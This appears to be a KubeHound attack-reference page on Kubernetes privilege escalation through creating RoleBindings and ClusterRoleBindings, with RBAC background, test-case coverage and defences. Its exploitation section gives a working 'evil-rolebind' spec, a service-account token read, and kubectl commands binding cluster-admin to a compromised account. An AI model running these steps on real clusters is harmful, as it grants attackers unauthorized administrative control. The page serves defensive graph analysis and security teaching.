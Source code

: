```yaml
---
title: ROLE_BIND
---
```


<!--
id: ROLE_BIND
name: "Create role binding"
mitreAttackTechnique: T1078 - Valid Accounts
mitreAttackTactic: TA0004 - Privilege Escalation
-->


# ROLE_BIND

A role that grants permission to create or modify `(Cluster)RoleBindings` can allow an attacker to escalate privileges on a compromised user.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [PermissionSet](../entities/permissionset.md)  | [PermissionSet](../entities/permissionset.md) | [Valid Accounts, T1078](https://attack.mitre.org/techniques/T1078/) |

## Details


### TL;DR
An attacker with sufficient permission can create a `RoleBinding` with the default existing admin `ClusterRole` and bind it to a compromised user. By creating this `RoleBinding`, the compromised user becomes highly privileged, and can execute privileged operations in the cluster (reading secrets, creating pods, etc.).

To exploit the attack we need to:
* Be able to `create` (verb) a `clusterolebinding` or `rolebinding` (resource).
* Be able to `bind` (verb) a `clusterrole` or a `role` (resource).

### RBAC

To fully understand the attacks we need to know the basic around RBAC in kubernetes:
* Roles and role bindings must exist in the same namespace.
* Role bindings can exist in separate namespaces to service accounts.
* Role bindings can link cluster roles, but they only grant access to the namespace of the role binding.
* Cluster role bindings link accounts to cluster roles and grant access across all resources.
* Cluster role bindings can not reference roles.

In KubeHound we added an abstraction called PermissionSet which is an object that link the RoleBinding and the Role directly (in one object). When creating every PermissionSet all the above rules are enforced to make sure the scope is valid.

In the bind attack there is 2 levels to checks:
* The PermissionSet itself (rolebinding/role) which will grant the role to designated subject 
* The actual verbs allowed by the PermissionSet. We are looking for the verbs `create` and `bind`.

To test all usecases, we created unit tests for each:
* CRB_CR: regroup all the PermissionSets with **C**luster**R**ole**B**inding / **C**luster**R**ole.
* RB_CR-SA: regroup all the PermissionSets with **R**ole**B**inding/**C**luster**R**ole for a **S**ervice **A**ccount.
* RB_R-SA: regroup all the PermissionSets with **R**ole**B**inding/**R**ole for a **S**ervice**A**ccount.
* RB_R-UG: regroup all the PermissionSets with **R**ole**B**inding/**R**ole for **U**sers/**G**roups.

![Summarizing RBAC attacks using the bind verb](../../images/ROLE_BIND_overall_view.png)

But, the PermissionSet object is created only if a role is linked by a rolebinding, this imply:
* **If a role is not linked by a role binding, no PermissionSet will be created in the graph.** Therefore this role can not be used in any attack paths (there is no direct role abstraction)
* **All the PermissionSet are created from at the ingestion time.** Currently no attacks create new assets in the graph. It means only the "existing" PermissionSet can be used in the attack path generation.

So some of the usecases are not fully covered:
| Usecase #| Coverage | Limitation description| 
|------|-------|---------|
| 1 | Full | N/A |
| 2 | Limited | All the PermissionSet that are not namespaced are linked to a single specific namespace. Yet, this attack allow to bind a role to any namespace. Therefore, we would need to create additional PermissionSet for every namespace if we want to fully cover the attack|
| 3 | Full | N/A |
| 4 | None | To cover this usecase, we need duplicate a non-namespaced PermissionSet to a namespace one. |


### Limitation of the can-i Kubernetes API

The PermissionSet (linked by RoleBinding/Role) **allows access to namespaced objects only**. So even if the verb allows you to `create` a `ClusterRoleBinding` and `bind` a `ClusterRole`, it will not work because those objects are not namespaced. With this PermissionSet (RB/R), the scope is only namespaced objects. 

K8s API will let you create invalid configs, it is considered as "a feature of Kubernetes RBAC". For instance you can create RBAC that will give you rights to allow the educate right on dolphin objects. So Kubernetes won't warn you if you get something wrong, because it doesn’t have a list of what “right” looks like. So when asking the `can-i` API from Kubernetes, it will tell you that you can `create` a `ClusterRoleBinding` and `bind` a `ClusterRole` because it will only process a "regex check".

Asking the API if I can create/bind:

```bash
root@rolebind-pod-rb-r-crb-cr-fail:/# ./kubectl auth can-i create clusterrolebindin
Warning: resource 'clusterrolebindings' is not namespace scoped in group 'rbac.authorization.k8s.io'

yes
root@rolebind-pod-rb-r-crb-cr-fail:/# ./kubectl auth can-i bind clusterrole
Warning: resource 'clusterroles' is not namespace scoped in group 'rbac.authorization.k8s.io'

yes
```

Exploiting the attack fails (as expected):

```bash
root@rolebind-pod-rb-r-crb-cr-fail:/# ./kubectl create clusterrolebinding rolebindadmin --clusterrole=cluster-admin --serviceaccount=default:rolebind-sa-rb-r-crb-cr-fail
error: failed to create clusterrolebinding: clusterrolebindings.rbac.authorization.k8s.io is forbidden: User "system:serviceaccount:default:rolebind-sa-rb-r-crb-cr-fail" cannot create resource "clusterrolebindings" in API group "rbac.authorization.k8s.io" at the cluster scope
root@rolebind-pod-rb-r-crb-cr-fail:/# ./kubectl create clusterrolebinding rolebindadmin --clusterrole=cluster-admin --serviceaccount=default:rolebind-sa-rb-r-crb-cr-fail -n default
error: failed to create clusterrolebinding: clusterrolebindings.rbac.authorization.k8s.io is forbidden: User "system:serviceaccount:default:rolebind-sa-rb-r-crb-cr-fail" cannot create resource "clusterrolebindings" in API group "rbac.authorization.k8s.io" at the cluster scope
```

### Tests User/Group RBAC in kind cluster

Users and groups have been created in the Kind Cluster. Each user have it is own kubeconfig file. They are located in the `test/setup/test-cluster/RBAC` folder:

* KUBECONFIG=test/setup/test-cluster/RBAC/user-rb-r-crb-cr-fail/kubeconfig kubectl auth can-i bind clusterrole


## Prerequisites

Ability to interact with the K8s API with a role allowing modify or create access to `(Cluster)RoleBindings`.

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/ROLE_BIND.yaml).

## Checks

Installing required binary (jq / curl / kubectl)
```bash
ARCH=$(arch | sed s/aarch64/arm64/ | sed s/x86_64/amd64/)
apt update && apt install -y curl jq && curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/arm64/kubectl" && chmod +x kubectl
```

Simply ask kubectl:
```bash
./kubectl auth can-i create clusterrolebinding
./kubectl auth can-i create rolebinding
./kubectl auth can-i bind role
./kubectl auth can-i bind clusterrole
```

Note: in one edge case (describe earlier), using `can-i` Kubernetes API is not enough.

## Exploitation

Create the `(Cluster)RoleBinding` definition as below:

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: evil-rolebind
  namespace: default
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: cluster-admin
subjects:
  - kind: ServiceAccount
    name: <compromised user>
    namespace: default
```

Create the binding via kubectl:

```bash
kubebctl apply -f evil-rolebind-spec.yaml
```

Retrieving service account information (needed to bind the role):

```bash
JWT=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
SAS=$(jq -R 'split(".") | .[1] | @base64d | fromjson' <<< "$JWT" | jq -r '."kubernetes.io"|.namespace,.serviceaccount.name' | paste -s -d ":")
```

Exploiting the attack using only the kubectl command:

```bash
./kubectl create rolebinding rbr-admin --role=admin --serviceaccount=$SAS -n default
./kubectl create rolebinding r-cr-admin --clusterrole=cluster-admin --serviceaccount=$SAS -n default
./kubectl create clusterrolebinding cr-cr-admin --clusterrole=cluster-admin --serviceaccount=$SAS
```

Note: the `admin` is not a standard role, it has been added manually in the kind cluster.

## Defences

### Monitoring

+ Monitor anomalous access to the K8s authorization API including creating privileged `(Cluster)RoleBinding` from with a pod, unusual `User-Agent` headers and other outliers.

### Implement least privilege access

Creating `(Cluster)RoleBinding` is a very powerful privilege and should not be required by the majority of users. Use an automated tool such a KubeHound to search for any risky permissions and users in the cluster and look to eliminate them.

## Calculation

+ [RoleBind](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/role_bind.go)
+ [RoleBindNamespace](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/role_bind_namespace.go)

## References:

+ [Official Kubernetes Documentation:Using RBAC Authorization](https://kubernetes.io/docs/reference/access-authn-authz/rbac/#rolebinding-and-clusterrolebinding)
+ [Securing Kubernetes Clusters by Eliminating Risky Permissions](https://www.cyberark.com/resources/threat-research-blog/securing-kubernetes-clusters-by-eliminating-risky-permissions)
+ [Getting into a bind with Kubernetes](https://raesene.github.io/blog/2021/01/16/Getting-Into-A-Bind-with-Kubernetes/)
+ [Official Kubernetes Documentation: Bind verb](https://kubernetes.io/docs/concepts/security/rbac-good-practices/#bind-verb)
+ [Official Kubernetes Documentation: RBAC rules](https://kubernetes.io/docs/reference/access-authn-authz/rbac/)
+ [Mixing Kubernetes Roles, RoleBindings, ClusterRoles, and ClusterBindings](https://octopus.com/blog/k8s-rbac-roles-and-bindings)
+ [RBAC Virtual Verbs: Teaching Kubernetes to Educate Dolphins](https://blog.aquasec.com/kubernetes-verbs)
